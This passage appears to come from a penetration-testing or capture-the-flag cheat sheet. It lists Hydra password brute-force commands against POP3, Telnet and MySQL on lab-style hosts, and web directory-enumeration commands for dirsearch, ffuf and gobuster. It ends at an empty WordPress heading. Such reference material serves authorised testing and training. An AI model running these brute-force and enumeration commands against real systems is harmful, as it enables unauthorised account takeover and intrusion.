 ```bash
hydra -l natalya -P /usr/share/wordlists/fasttrack.txt -f 192.168.1.10 -s 55007 pop3
```

- POP3 bruteforce with the valid username **`natalya`**.

## Telnet Bruteforce:

```bash
hydra -l james -P passwords.txt 10.2.2.23 telnet
```

- Telnet bruteforce with the username **`james`**.

## MySQL Bruteforce:

```bash
hydra -l root -P ~/rockyou.txt sunset-midnight mysql -t 4
```

- MySQL bruteforce with the username **`root`**.

# **Directory Enumeration for Ports 80 and 443**

## **dirsearch**

```bash
dirsearch -u url
```

## **ffuf**

```bash
ffuf -c -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u url -mc -e txt,php,csv,md,json,js,html,py,sh -fs 80
```

## **gobuster**

```bash
gobuster dir -w /usr/share/seclists/Discovery/Web_Content/common.txt -t 80 -u http://
gobuster dir -w /usr/share/seclists/Discovery/Web_Content/common.txt -t 100 -x txt,php,csv,md,json,js,html,py,sh,pdf,config -u url
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x txt,php,csv,md,json,js,html,py,sh,pdf,config -t 100 -u url
gobuster dir -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories-lowercase.txt -t 100 -x txt,php,csv,md,json,js,html,py,sh,pdf -u url -k
```

**Note:** For ffuf, use **`-H "Authorization: Basic YWRtaW46YWRtaW4="`** for header if needed.

# **WordPress Enumeration**
